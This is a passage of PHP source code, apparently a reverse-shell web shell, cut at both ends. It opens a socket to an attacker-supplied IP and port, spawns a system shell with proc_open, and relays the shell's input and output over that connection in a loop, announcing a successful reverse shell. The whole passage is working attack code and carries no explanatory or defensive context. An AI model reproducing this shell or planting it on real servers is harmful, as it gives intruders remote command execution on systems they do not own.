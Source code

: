```
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
```